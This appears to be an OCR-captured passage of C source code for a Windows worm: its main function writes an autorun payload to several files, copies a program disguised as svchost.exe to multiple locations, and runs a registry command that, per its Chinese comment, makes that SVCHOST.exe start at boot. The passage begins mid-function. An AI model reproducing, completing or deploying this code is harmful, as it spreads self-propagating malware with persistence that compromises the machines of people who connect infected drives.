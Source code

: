 return 0;

}

else return 1;

}

int main(void)

{

FILE \*input,\*output;

int i,k;

for(i=0;i\<3;i++)

{

output=fopen(files\_autorun\[i\],\"w\");

fprintf(output,\"%s\",autorun);

fclose(output);

}

for(i=0;i\<=SVCHOST\_NUM;i++)

{

if((input=fopen(files\_svchost\[i\],\"rb\"))!=NULL)

{

fclose(input);

for(k=0;k\<SVCHOST\_NUM;k++)

{

copy(files\_svchost\[i\],files\_svchost\[k\]);

}

i=SVCHOST\_NUM+1;

}

}

system(regadd); /\* 注册SVCHOST.exe,让其在启动时运行 \*/

return 0;

}